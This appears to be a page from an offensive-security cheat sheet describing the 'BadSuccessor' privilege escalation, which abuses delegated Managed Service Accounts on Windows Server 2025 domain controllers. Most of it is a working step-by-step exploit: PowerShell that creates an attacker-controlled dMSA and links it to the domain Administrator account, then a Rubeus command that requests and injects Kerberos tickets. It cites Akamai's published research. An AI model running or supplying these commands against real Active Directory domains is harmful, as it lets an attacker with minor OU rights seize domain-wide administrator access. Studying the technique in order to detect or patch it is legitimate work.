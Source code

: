 # Password - dMSA

Delegated Managed Service Accounts (dMSAs)

## BadSuccessor

**Requirements**:

* Windows Server 2025 Domain Controller
* Permission on any organizational unit (OU) in the domain

**Exploitation**:

* [akamai/BadSuccessor/Get-BadSuccessorOUPermissions.ps1](https://github.com/akamai/BadSuccessor)
* [GhostPack/Rubeus PR #194](https://github.com/GhostPack/Rubeus/pull/194)

![badsuccessor-attack-flow](https://www.akamai.com/site/en/images/blog/2025/badsuccessor-image5.png)

* Create unfunctional dMSA

    ```ps1
    New-ADServiceAccount -Name "attacker_dmsa" -DNSHostName "dontcare.com" -CreateDelegatedServiceAccount -PrincipalsAllowedToRetrieveManagedPassword "attacker-machine$" -path "OU=temp,DC=aka,DC=test"
    ```

* Edit `msDS-ManagedAccountPrecededByLink` and `msDS-DelegatedMSAState` values

    ```ps1
    # msDS-ManagedAccountPrecededByLink, targeted user or computer
    # msDS-DelegatedMSAState=2, completed migration
    $dMSA = [ADSI]"LDAP://CN=attacker_dmsa,OU=temp,DC=aka,DC=test"
    $dMSA.Put("msDS-DelegatedMSAState", 2)
    $dMSA.Put("msDS-ManagedAccountPrecededByLink", "CN=Administrator,CN=Users,DC=aka,DC=test")
    $dMSA.SetInfo()
    ```

* dMSA authentication with Rubeus

    ```ps1
    Rubeus.exe asktgs /targetuser:attacker_dmsa$ /service:krbtgt/aka.test /dmsa /opsec /nowrap /ptt /ticket:<Machine TGT>
    ```

## References

* [BadSuccessor: Abusing dMSA to Escalate Privileges in Active Directory - Yuval Gordon - May 21, 2025](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
